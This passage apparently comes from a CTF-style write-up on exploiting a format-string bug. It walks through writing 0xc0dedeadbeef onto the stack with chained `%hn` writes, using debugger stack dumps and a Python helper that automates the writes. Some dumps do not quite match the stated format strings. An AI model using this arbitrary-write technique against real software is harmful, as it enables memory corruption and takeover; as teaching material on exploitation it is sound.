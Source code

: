 To write the next 2 bytes of our value, we will use `1c` to increment the pointer in `39` by 2: `%57010c%34$hn`:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%57010c%34%hn'
01:0008│         0x7fffffffddf8 ◂— '34$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0xbeef
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb2 ◂— 0x0
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb2 ◂— 0x0
```

Then use `39` again to write the next 2 bytes of our value `0xdead`, `%57005c%63$hn`:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%57005c%34%hn'
01:0008│         0x7fffffffddf8 ◂— '34$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0xdeadbeef
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0xdead
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb0 ◂— 0xdead
```

Again increment the pointer in `39` and write the last 2 bytes of our value: `0xc0de`. The 2 format strings are `%57012c%34$hn` and `%49374c%63$hn` respectively. After sending those 2 strings and checking the stack we should see our value `0xc0dedeadbeef` on the stack at index `18`:

```python
Index       |    stack address   |    value     

00:0000│ rdi rsp 0x7fffffffddf0 ◂— '%49374c%63$hn'
01:0008│         0x7fffffffddf8 ◂— '63$hn'
... ↓            22 skipped
18:00c0|         0x7fffffffdeb0 ◂— 0xc0dedeadbeef
...
1c:00e0│         0x7fffffffded0 —▸ 0x7fffffffdfb8 —▸ 0x7fffffffdeb6 ◂— 0x0
...
39:01c8│         0x7fffffffdfb8 —▸ 0x7fffffffdeb6 ◂— 0x0
```

This method can actually be done programmatically in python:

```python
def write(value):	
	addr = stack_leak - 0x108 #calculate the address of the last 8 bytes of input buffer
	for i in range(3):
		str_addr = (addr & 0xffff) + 2*i #get the last 2 bytes of the address of buffer, and incremnt accordingly
		str_value = (value >> 0x10*i) & 0xffff #get the 2 bytes of the value we are writing
		
		sendString(f"%{str_addr}c%34$hn")
		sendString(f"%{str_value}c%63$hn")
```
